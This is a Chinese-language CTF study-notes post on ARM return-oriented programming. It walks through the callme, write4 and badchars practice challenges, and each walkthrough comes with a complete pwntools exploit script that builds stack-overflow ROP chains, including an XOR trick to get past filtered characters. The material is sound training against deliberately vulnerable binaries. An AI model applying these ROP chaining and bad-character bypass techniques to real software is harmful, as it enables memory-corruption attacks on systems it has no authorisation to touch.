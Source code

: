 ```yaml
---
title: ARM pwn 入门 (4)
date: 2023-02-28 22:03:00
categories:
- 学习笔记
- ARM pwn 系列
---
```

# <font face=汉仪唐美人>3. callme</font>
<font face=汉仪唐美人>本题有多个文件，根据题意来看是需要依次调用``callme_one``、``callme_two``、``callme_three``这3个库函数。这三个函数会进行flag的解密，但是需要满足前三个参数等于特定值。这就需要我们去elf文件中寻找合适的gadget了。</font>

![](1.png)

<font face=汉仪唐美人>而本题正好给出了一个不能再合适的gadget，因为本题的考点就在这里：</font>

![](2.png)

<font face=汉仪唐美人>因此思路就很简单了，直接重复调用这个gadget修改前3个寄存器的值，再分别调用三个callme函数即可。</font>

<font face=汉仪唐美人>这里需要注意的是，elf文件中虽然给出了一个可以调用3个库函数的函数，能够填充got表，但由于ROP只能写入已知地址，如果写入的是got表的地址，那么程序就会将got表地址当做指令地址来执行，这显然是不对的，少了一层解引用。因此我们需要使用plt表进行利用。和x86架构下的利用相同，如果要使用plt表进行利用，需要注意返回地址的设置。<font color=red>如果plt地址卸载栈上地址值为a的地方，ROP到此，返回地址应该为a-8，且返回后SP指向a+8处</font>。因此，我们需要在``callme_one``函数的plt地址前面写下一个ROP导向地址。</font>

<font face=汉仪唐美人>因此我们可以直接在这里写``useful_gadget``的地址，在``callme_one``后面直接写三个参数，然后再调用下一个库函数，以此类推。</font>

<font face=汉仪唐美人>exp：</font>
```python
from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./callme_armv5')

# io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', '-g', '9999', './callme_armv5'])
io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './callme_armv5'])

useful_gadget = 0x10870
pop_out = 0x108dc

payload = cyclic(0x24)
payload += p32(useful_gadget)
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(useful_gadget) + p32(elf.plt['callme_one'])
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(useful_gadget) + p32(elf.plt['callme_two'])
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(pop_out) + p32(elf.plt['callme_three'])

io.sendlineafter(b'> ', payload)
io.interactive()
```

![](3.png)

# <font face=汉仪唐美人>4. write4</font>
<font face=汉仪唐美人>本题的pwnme和print_file函数都写在了库函数中，但观察elf文件可以发现有两个gadget：</font>

![](4.png)

<font face=汉仪唐美人>其中第一个为任一地址写指令，第二个可以用作ROP的gadget。考虑到print_file函数需要传入一个字符串参数作为打开的文件，我们需要将flag.txt写到一个特定的地方，然后使用第二个gadget即可传参。</font>

![](5.png)

<font face=汉仪唐美人>和x86的本题不同，这里的bss段太小，无法写入，因此尝试写入到data段。</font>

![](6.png)

<font face=汉仪唐美人>exp：</font>
```python
from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./write4_armv5')

io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './write4_armv5'])

write_addr = 0x21024
write_gadget = 0x105ec
pop_r0pc = 0x105f4
pop_r3r4pc = 0x105f0

payload = cyclic(0x24)
payload += p32(pop_r3r4pc) + b'flag' + p32(write_addr)
payload += p32(write_gadget) + b'.txt' + p32(write_addr + 4);
payload += p32(write_gadget) + p32(0) * 2
payload += p32(pop_r0pc) + p32(write_addr) + p32(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)

io.interactive()
```

![](7.png)

# <font face=汉仪唐美人>5. badchars</font>
<font face=汉仪唐美人>本题的pwnme中栈溢出过滤了4个字符：x、g、a、.，因此需要利用elf中的gadget。我们看一下都有什么gadget。</font>

![](8.png)

<font face=汉仪唐美人>第一段gadget：[R5]=[R5]-R6; 赋值R0</font>
<font face=汉仪唐美人>第二段gadget：[R5]=[R5]+R6; 赋值R0</font>
<font face=汉仪唐美人>第三段gadget：[R4]=R3; 赋值R5和R6</font>
<font face=汉仪唐美人>第四段gadget：[R5]=[R5]^R6; 赋值R0</font>

<font face=汉仪唐美人>看到了异或操作，我们可以利用这个异或操作在数据区构造出来关键字符。这里的加法、减法和异或操作实际上只需要一个就可以了。我们将字符串写在和上一道题相同的位置。</font>

```python
from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./badchars_armv5')

io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './badchars_armv5'])

gadgets = [0x105f0, 0x10600, 0x10610, 0x10618]
write_addr = 0x21024

payload = p32(write_addr + 12) * (0x2c // 4)	# 这里要写一个有效地址，不然STR R3, [R4]会报错
payload += p32(gadgets[2]) + p32(write_addr) + b'fl' + p8(ord('a') ^ 0xFF) + p8(ord('g') ^ 0xFF)
payload += p32(gadgets[1]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr) + p32(0xFFFF0000)
payload += p32(gadgets[3]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr + 4) + p8(ord('.') ^ 0xFF) + b't' + p8(ord('x') ^ 0xFF) + b't'
payload += p32(gadgets[3]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr + 4) + p32(0xFF00FF)
payload += p32(gadgets[3]) + p32(write_addr)
payload += p32(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)

io.interactive()
```

![](9.png)

